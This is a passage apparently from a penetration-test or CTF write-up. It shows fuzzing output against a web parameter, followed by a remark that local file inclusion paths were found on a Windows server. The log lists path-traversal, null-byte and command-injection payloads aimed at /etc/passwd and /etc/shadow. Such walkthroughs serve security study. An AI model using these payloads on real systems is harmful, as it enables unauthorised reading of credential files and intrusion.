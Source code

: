 ```python
000000023:   200        37 L     108 W    1650 Ch     "%0a"                                                    
000000024:   200        38 L     124 W    1794 Ch     "%00"                                                    
000000025:   200        38 L     124 W    1795 Ch     "+%00"                                                   
000000043:   200        38 L     124 W    1796 Ch     "id%00"                                                  
000000044:   200        38 L     124 W    1797 Ch     "id%00|"                                                 
000000063:   200        38 L     124 W    1839 Ch     "../../../../../../../../../../../../etc/hosts%00"       
000000067:   200        38 L     124 W    1840 Ch     "../../../../../../../../../../../../etc/passwd%00"      
000000069:   200        38 L     124 W    1840 Ch     "../../../../../../../../../../../../etc/shadow%00"      
000000085:   200        38 L     124 W    1835 Ch     "\..\..\..\..\..\..\..\..\..\..\etc\passwd%00"           
000000086:   200        38 L     124 W    1835 Ch     "\..\..\..\..\..\..\..\..\..\..\etc\shadow%00"           
000000087:   200        38 L     124 W    1834 Ch     "..\..\..\..\..\..\..\..\..\..\etc\passwd%00"            
000000088:   200        38 L     124 W    1834 Ch     "..\..\..\..\..\..\..\..\..\..\etc\shadow%00"            
000000089:   200        37 L     109 W    1670 Ch     "%0a/bin/cat%20/etc/passwd"                              
000000090:   200        37 L     109 W    1670 Ch     "%0a/bin/cat%20/etc/shadow"                              
000000092:   200        38 L     124 W    1806 Ch     "%00/etc/shadow%00"                                      
000000091:   200        38 L     124 W    1806 Ch     "%00/etc/passwd%00"                                      
000000093:   200        38 L     124 W    1822 Ch     "%00../../../../../../etc/passwd"                        
000000094:   200        38 L     124 W    1822 Ch     "%00../../../../../../etc/shadow"                        
000000095:   200        38 L     124 W    1842 Ch     "/../../../../../../../../../../../etc/passwd%00.jpg"    
000000096:   200        38 L     124 W    1843 Ch     "/../../../../../../../../../../../etc/passwd%00.html"
```

Some basic LFI vulnerable paths were returned.

Using the Wappalyzer FireFox addon, we discover that the server is running Windows Server
